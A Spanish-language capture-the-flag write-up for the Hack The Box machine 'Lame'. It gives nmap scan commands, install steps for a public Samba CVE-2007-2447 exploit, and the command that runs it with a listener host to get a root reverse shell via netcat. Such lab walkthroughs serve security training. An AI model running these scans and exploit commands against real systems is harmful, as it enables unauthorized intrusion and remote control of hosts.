 #  LAME MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/1.PNG)

## INDEX

- [[#ESCANEO Y ENUMERACION|ESCANEO Y ENUMERACION]]
- [[#EXPLOTACION|EXPLOTACION]]
- [[#ELEVACION DE PRIVILEGIOS|ELEVACION DE PRIVILEGIOS]]


## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```
nmap -p- --open -T5 - v -n 10.10.10.3 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/2.PNG)

Vamos a realizar una enumeracion de los servicios en los puertos:

```
nmap -p21,22,139,445,3632 -sV -sC 10.10.10.3 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/3.PNG)

## EXPLOTACION

Vemos que tiene el samba activado y la version es 3.0.X que es desactualizado, sibuscamos esa version en google junto a la palabra exploit encontramos el siguiente repositorio de github:

[https://github.com/amriunix/CVE-2007-2447](https://github.com/amriunix/CVE-2007-2447)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/4.PNG)

estos son los pasos de instalacion:

```bash
sudo apt install python python-pip #si no tienes pip2
pip install --user pysmb
git clone https://github.com/amriunix/CVE-2007-2447.git
```

la forma de ejecucion:

```bash
python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/5.PNG)

nos ponemos a la escucha en netcat y obtenemos una conexion reversa como root:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/6.PNG)

## ELEVACION DE PRIVILEGIOS

No necesitamos elevar privilegios porque somos root y podemos ver las 2 flags:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/7.PNG)